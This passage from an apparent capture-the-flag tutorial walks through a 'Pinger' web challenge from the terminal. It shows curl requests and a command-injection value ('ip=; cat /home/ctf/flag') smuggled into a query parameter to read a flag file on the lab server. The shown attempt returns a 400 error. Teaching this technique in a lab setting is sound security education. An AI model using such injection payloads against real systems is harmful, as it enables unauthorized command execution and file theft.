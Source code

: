 That was simple.
Now it's time for a more difficult use case of query parameters.
Yes, it's "Pinger" again.
But this time, you'll solve it **entirely from the terminal**.

First, get the HTML content of the website:
```html
root@kali:~# curl http://141.85.224.70:8069/pinger

<html>

    <head>
        <title>Pinger</title>
    </head>

    <h2>My purpose is simple: I check the availability of network hosts by pinging their IP. Use the text box below to give me an IP to ping.</h2>

    <form action="/ping" method="get">
        IP: <input type="text" name="ip"></br>
        <input type="submit" value="Submit">
    </form>


</html>
```

The IP is retrieved from the user via this `form`:
```html
<form action="/ping" method="get">
    IP: <input type="text" name="ip"></br>
    <input type="submit" value="Submit">
</form>
```

From here we get the following information:
- upon pressing "Submit", a `GET` request is sent to `/ping`
- the input we provide is set as the value of the key `ip`

So a request URL that gets the flag would look like this:
```
GET /ping?ip=; cat /home/ctf/flag
```

Let's try to do this with `curl`:
```
root@kali:~# curl -v -G -d 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 400 Bad Request
[...]
```
